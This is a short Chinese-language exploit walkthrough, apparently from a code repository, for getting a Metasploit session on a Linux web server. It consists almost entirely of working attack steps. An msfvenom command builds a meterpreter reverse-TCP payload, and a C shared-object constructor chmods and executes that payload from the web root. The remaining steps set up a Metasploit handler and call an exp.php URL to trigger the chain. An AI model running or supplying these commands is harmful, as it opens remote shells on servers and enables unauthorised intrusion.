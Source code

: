 > exp代码来自互联网

## 上线msf

### msfvenom生成payload

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.111 LPORT=9999 -f elf > test
```

### 编译so

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
__attribute__ ((__constructor__)) void preload (void)
{
    system("chmod +x /var/www/html/test && /var/www/html/test");
}
```

### msf监听

```
> use exploit/multi/handler
> set payload linux/x86/meterpreter/reverse_tcp
> set LHOST 192.168.0.111
> set LPORT 9999
> exploit
```

### 运行exp

```
http://192.168.0.111:18080/exp.php
```

(exp.php里的路径根据实际情况修改)

![image-20201226113404523](.\img\image-20201226113404523.png)